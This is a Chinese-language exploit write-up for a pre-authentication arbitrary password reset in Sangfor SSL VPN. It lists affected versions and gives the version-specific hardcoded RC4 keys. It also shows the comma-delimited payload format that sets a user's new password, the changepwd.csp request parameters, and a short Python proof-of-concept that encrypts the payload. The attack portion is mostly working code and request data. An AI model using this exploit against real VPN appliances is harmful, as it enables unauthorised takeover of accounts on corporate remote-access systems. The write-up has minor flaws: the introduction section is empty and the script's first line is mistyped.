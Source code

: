 深信服 SSL VPN - Pre Auth 任意密码重置
======================================

一、漏洞简介
------------

二、漏洞影响
------------

高版本(如M7.6.8R2) 直接删除相关函数

低版本(如M7.6.6R1) 升级版存在此漏洞

打了 5.x-7.x 补丁的无法利用

三、复现过程
------------

### 漏洞分析

差不多的逻辑

![1.png](resource/深信服SSLVPN-PreAuth任意密码重置/media/rId25.png)

唯独多了个 RC4 解密，key 是 20100720

![2.png](resource/深信服SSLVPN-PreAuth任意密码重置/media/rId26.png)

在数据提取中写的有点奇怪,使用,和=作为分隔符，所以我们的数据也要类似如：

`,username=test,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=QQ123456,`

![3.png](resource/深信服SSLVPN-PreAuth任意密码重置/media/rId27.png)

M7.6.6R1 key 为 `20181118`

M7.6.1 key 为 `20100720`

其他版本另寻

    https://www.0-sec.org/por/changepwd.csp

    sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN

![4.png](resource/深信服SSLVPN-PreAuth任意密码重置/media/rId28.png)

### poc

> poc.py

    rom Crypto.Cipher import ARC4
    from binascii import a2b_hex


    def myRC4(data,key):
        rc41 = ARC4.new(key)
        encrypted = rc41.encrypt(data)
        return encrypted.encode('hex')


    def rc4_decrpt_hex(data,key):
        rc41 = ARC4.new(key)
        return rc41.decrypt(a2b_hex(data))
    key = '20100720'
    data = r',username=2003010002,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=zxc123,'
    a = myRC4(data, key)
    print a
    print len(a)

参考链接
--------

> https://blog.sari3l.com/

